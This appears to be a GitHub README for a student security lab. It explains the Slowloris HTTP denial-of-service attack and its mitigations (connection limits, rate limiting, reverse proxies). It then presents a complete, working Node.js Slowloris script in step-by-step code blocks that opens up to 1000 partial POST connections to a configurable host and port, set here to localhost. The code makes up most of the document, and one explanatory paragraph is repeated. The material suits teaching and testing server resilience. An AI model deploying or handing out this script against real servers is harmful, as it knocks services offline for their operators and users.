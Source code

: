 What is a Slowloris DDoS attack?
-
Slowloris is a denial-of-service attack program which allows an attacker to overwhelm a targeted server by opening and maintaining many simultaneous HTTP connections between the attacker and the target.


How does a Slowloris attack work?
--
Slowloris is an application layer attack which operates by utilizing partial HTTP requests. The attack functions by opening connections to a targeted Web server and then keeping those connections open as long as it can.

Slowloris is not a category of attack but is instead a specific attack tool designed to allow a single machine to take down a server without using a lot of bandwidth. Unlike bandwidth-consuming reflection-based DDoS attacks such as NTP amplification, this type of attack uses a low amount of bandwidth, and instead aims to use up server resources with requests that seem slower than normal but otherwise mimic regular traffic. It falls in the category of attacks known as “low and slow” attacks. The targeted server will only has so many threads available to handle concurrent connections. Each server thread will attempt to stay alive while waiting for the slow request to complete, which never occurs. When the server’s maximum possible connections has been exceeded, each additional connection will not be answered and denial-of-service will occur.

A Slowloris attack occurs in 4 steps:
--
* The attacker first opens multiple connections to the targeted server by sending multiple partial HTTP request headers.
* The target opens a thread for each incoming request, with the intent of closing the thread once the connection is completed. In order to be efficient, if a connection takes too long, the server will timeout the exceedingly long connection, freeing the thread up for the next request.
* To prevent the target from timing out the connections, the attacker periodically sends partial request headers to the target in order to keep the request alive. In essence saying, “I’m still here! I’m just slow, please wait for me.”
* The targeted server is never able to release any of the open partial connections while waiting for the termination of the request. Once all available threads are in use, the server will be unable to respond to additional requests made from regular traffic, resulting in denial-of-service.
The key behind a Slowloris is its ability to cause a lot of trouble with very little bandwidth consumption.

How is a Slowloris attack mitigated?
--
For Web servers that are vulnerable to Slowloris, there are ways to mitigate some of the impact. Mitigation options for vulnerable servers can be broken down into 3 general categories:

* Increase server availability - Increasing the maximum number of clients the server will allow at any one time will increase the number of connections the attacker must make before they can overload the server,. Realistically, an attacker may scale the number of attacks to overcome server capacity regardless of increases.
* Rate limit incoming requests - Restricting access based on certain usage factors will help mitigate a Slowloris attack. Techniques such as limiting the maximum number of connections a single IP address is allowed to make, restricting slow transfer speeds, and limiting the maximum time a client is allowed to stay connected are all approaches for limiting the effectiveness of low and slow attacks.
* Cloud-based protection - Use a service that can function as a reverse proxy, protecting the origin server.

Implementation
--
We start with some globals - net, which we use for the net library to establish and manage connections to the target server; maxConnections, which is our setting for how many simultaneous connections we want to maintain to the target; connections, which is an array to store and keep track of our active connections to the target, and host and port, which is the address and port we want the script to execute against. In our example, we're connecting to port 80 on localhost (127.0.0.1):
    
```javascript
    var net = require('net');

    var maxConnections	= 1000;
    var connections		= [];

    var host	= "127.0.0.1";
    var port	= 80;
```

Additionally, we'll have a property client which manages the connection itself. When we establish the connection we pass the target port and host, and a handler function which notifies us we're sending data and sends an incomplete POST payload. The important thing is that the Content-Length property is longer than the information we send, so the server is still expecting more data from us.
In a better version of this attack we may periodically send more data to the server to keep refreshing the timeout for this connection, but would avoid ever sending the complete request (or at least take as long as possible in doing so).

We'll also make a class for tracking and managing each connection. Our Connection class will take 2 arguments, h (host), and p (port), which the script will provide from our settings. We'll also set the properties, t (to keep track of time the connection is alive), and state (the current state of the connection: active if the connection is still working, otherwise ended or error).
```javascript
    function Connection(h, p){
	this.state	= 'active';
	this.t		= 0;

```
Additionally, we'll have a property client which manages the connection itself. When we establish the connection we pass the target port and host, and a handler function which notifies us we're sending data and sends an incomplete POST payload. The important thing is that the Content-Length property is longer than the information we send, so the server is still expecting more data from us.
In a better version of this attack we may periodically send more data to the server to keep refreshing the timeout for this connection, but would avoid ever sending the complete request (or at least take as long as possible in doing so).
	
```javascript
	this.client = net.connect({port:p, host:h}, () => {
		process.stdout.write("Connected, Sending... ");
		
		this.client.write("POST / HTTP/1.1\r\nHost: "+host+"\r\n" +
			"Content-Type: application/x-www-form-urlenconded\r\n" +
			"Content-Length: 385\r\n\r\nvx=321&d1=fire&l");
		
		process.stdout.write("Written.\n");
    });
    
```

We also want to handle some events for the connection. Firstly, if the target sends us any data back, it's not listening to us anymore. We'll show how much information was received and end this connection:
```javascript
	
	this.client.on('data', (data) => {
		console.log("\t-Received "+data.length+" bytes...");
		this.client.end();
	});
```
Now to handle the end event, firstly calculating the time this connection was alive, and also changing the state of the Connection object to ended, so we know we don't need it anymore.
```javascript

	this.client.on('end', () => {
		var d = Date.now() - this.t;
		this.state = 'ended';
```

We'll also show the time the connection was alive and how many connections remain open

```javascript

			console.log("\t-Disconnected (duration: " +
			(d/1000).toFixed(3) +
			" seconds, remaining open: " +
			connections.length +
			").");
	});
```

We'll also add a handler for the error event; if an error occurs, we simply want to change the Connection state to error, so we know it can be removed:
```javascript
	this.client.on('error', () => {
		this.state = 'error';
	});
```
Finally, we add the Connection to our connections array, and the object method is complete.
```javascript
	connections.push(this);
```
Managing all the connections

To establish and track the connections, we'll set up an interval to run twice a second; it'll start with a flag (notify) that lets us know if we want to show output this iteration.
```javascript

     setInterval(() => {
        var notify = false;
```
If we haven't reached our maxConnections connection limit, we create a new Connection and change our notify flag so we'll show output:

```javascript
	if(connections.length < maxConnections)
	{
		new Connection(host, port);
		notify = true;
	}
```

We'll also clear the connections array of any Connection objects that are not active.

```javascript

	connections = connections.filter(function(v) {
		return v.state=='active';
	});
```

Finally, if the notify flag is set we'll show how many active connections we currently have, and close the interval function, as well as specifying the interval repetition rate (500 milliseconds).

```javascript
	if(notify)
	{
		console.log("Active connections: " + connections.length +
			" / " + maxConnections);
	}
    }, 500);
```
# si-lab2
